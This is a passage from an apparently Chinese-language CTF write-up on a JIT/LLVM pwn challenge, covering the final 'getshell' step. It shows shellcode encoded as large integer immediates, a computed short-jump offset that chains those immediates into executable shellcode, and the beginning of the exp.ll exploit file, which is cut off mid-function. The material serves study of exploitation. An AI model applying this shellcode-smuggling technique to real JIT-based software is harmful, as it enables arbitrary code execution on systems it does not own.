 ```
16999840169015130986
16999840169015152728
16999840169015117071
```

接下来，我们要进行调试，构造出能够产生jmp指令两个长函数以供handle函数解析。

## Step 7: getshell
我们在一个函数中写入很多的add指令，就像下面这样。经过测试得出=，当写到%315时，有一个movabs指令能够成功溢出到0xFF0之后，不过这是第一条指令。因此我们写shellcode应该写在前面几个指令中。
![](https://img-blog.csdnimg.cn/d43cca331f9c4703b6402a436cedd8bd.png)
下面是解析第一个函数后最后几个字节的情况：
![](https://img-blog.csdnimg.cn/3b2ec09e96ae43f7b5d191554bf2de7a.png)
下面是解析第二个函数后最后几个字节的情况：
![](https://img-blog.csdnimg.cn/237654158a854473b314fddfd2811616.png)
由下图可以得出，我们可以控制的是第一个函数最后一个movabs中最后的4个字节：
![](https://img-blog.csdnimg.cn/6398372ff68541bca851abeb2f0d9a25.png)
根据下图可知，第一个短转移（即图中的jmp）偏移应该为：``-(0xff3-(0xfde+2))=-0x13=0xed``
![](https://img-blog.csdnimg.cn/25d169db5d074b67818830a540251cda.png)
如图所示，这样就可以跳转到我们的第一个shellcode了。第一个立即数的值应该为``0xEDEB00000000``。（低4字节无所谓）
![](https://img-blog.csdnimg.cn/b652cca58f3b46c48301dc3a0481aee9.png)
然后我们只要将上面脚本中的值依次写入到下面即可。
![](https://img-blog.csdnimg.cn/40091d4c0b794a25ab7894184f21f5fa.png)
成功getshell。
![](https://img-blog.csdnimg.cn/0fc157a439e64b06a861724e4576d212.png)
exp.ll如下：

```
; ModuleID = 'test.c'
source_filename = "test.c"
target datalayout = "e-m:e-p270:32:32-p271:32:32-p272:64:64-i64:64-f80:128-n8:16:32:64-S128"
target triple = "x86_64-pc-linux-gnu"

; Function Attrs: noinline nounwind optnone uwtable
define dso_local i64 @test(i64 %0) #0 {
  %2 = add nsw i64 %0, 261593573097472
  %3 = add nsw i64 %2, 256
  %4 = add nsw i64 %3, 256
  %5 = add nsw i64 %4, 256
  %6 = add nsw i64 %5, 256
  %7 = add nsw i64 %6, 256
  %8 = add nsw i64 %7, 256
  %9 = add nsw i64 %8, 256
  %10 = add nsw i64 %9, 256
  %11 = add nsw i64 %10, 256
  %12 = add nsw i64 %11, 256
  %13 = add nsw i64 %12, 256
  %14 = add nsw i64 %13, 256
  %15 = add nsw i64 %14, 256
  %16 = add nsw i64 %15, 256
  %17 = add nsw i64 %16, 256
  %18 = add nsw i64 %17, 256
  %19 = add nsw i64 %18, 256
  %20 = add nsw i64 %19, 256
  %21 = add nsw i64 %20, 256
  %22 = add nsw i64 %21, 256
  %23 = add nsw i64 %22, 256
  %24 = add nsw i64 %23, 256
  %25 = add nsw i64 %24, 256
```